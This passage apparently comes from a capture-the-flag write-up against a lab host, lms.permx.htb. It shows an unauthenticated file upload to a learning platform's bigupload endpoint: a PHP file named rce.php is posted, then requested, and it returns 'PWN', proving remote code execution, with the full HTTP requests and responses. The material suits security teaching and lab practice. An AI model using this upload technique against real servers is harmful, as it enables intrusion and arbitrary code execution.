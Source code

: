```http

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="bigUploadFile"; filename="rce.php"
Content-Type: text/plain

<?php echo 'PWN'; ?>
-----------------------------27067171744469957932680288557--
```

The upload was successful. 

```
HTTP/1.1 200 OK
Date: Sun, 27 Oct 2024 12:34:39 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 40
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file has successfully been uploaded.
```

Then I tried to access it.

```http
GET /main/inc/lib/javascript/bigupload/files/rce.php HTTP/1.1
Host: lms.permx.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/
Cookie: ch_sid=m28csg3c9iartsjn9vu1o1otvq
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The file was there, and the PHP code was executed.

```http
HTTP/1.1 200 OK
Date: Sun, 27 Oct 2024 12:35:10 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 3
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

PWN
```
